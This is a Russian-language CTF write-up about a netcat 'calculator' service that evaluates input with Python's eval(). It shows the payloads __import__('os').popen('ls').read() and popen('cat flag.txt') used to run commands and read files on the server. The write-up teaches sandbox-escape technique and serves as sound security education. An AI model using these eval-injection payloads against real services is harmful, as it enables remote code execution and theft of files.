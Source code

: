 # Калькулятор: Write-up #
Попытки открыть ip в браузере не увенчались успехом, так что попробуем открыть его через `netcat`:
    
    $ nc 62.173.140.174 10000

![](writeup/calc.jpg)

Довольно неплохой сделан калькулятор, вот только больно он похож на интерпретатор Python. Если протестировать несколько функций, по типу `print()` или `help()`, то по тем `None`, что возвращается этими функциями можно понять, что всё, что вводится пользователем проходит через функцию `eval()`.

Для всего, что связано с `python (pyjails)` крайне советую первым делом лезть [сюда](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes) (добавьте сайт в закладочки, ОЧЕНЬ полезный ресурс на CTF).
Здесь есть много (но не все) методов обходов различных фильтров, RCE и т.д.

Попробуем кое-что оттуда, что не принтит результат, а возвращает его:

    >>> __import__("os").uname()
    posix.uname_result(sysname='Linux', nodename='966d3b943242', release='5.4.0-144-generic', version='#161-Ubuntu SMP Fri Feb 3 14:49:04 UTC 2023', machine='x86_64')

У нас в распоряжении теперь есть модуль `os`, в теории - полноценный RCE. В теории - потому, что функция `system("command")` сама по себе возвращает не вывод команды, а код выполнения (подробнее [тут](https://docs-python.ru/standart-library/modul-os-python/funktsija-system-modulja-os/)).
В нашем случае - 0, т.е. успех. Так что необходимо команды пропускать не через `system()`, а через `popen("command").read()`. Здесь уже будет читаться и возвращаться поток вывода.

    >>> __import__("os").popen("ls").read()
    flag.txt
    requirements.txt
    service.py

Ага, осталось лишь вывести файлик:
    
    >>> __import__("os").popen("cat flag.txt").read()
    CODEBY{************}

P.S. Кому интересно, я скачал [service.py](writeup/service.py), так что кто хочет посмтореть исходники сервера - милости прошу =)

P.P.S. Надеюсь, организаторы меня за это на эшафоте не взвесят XD
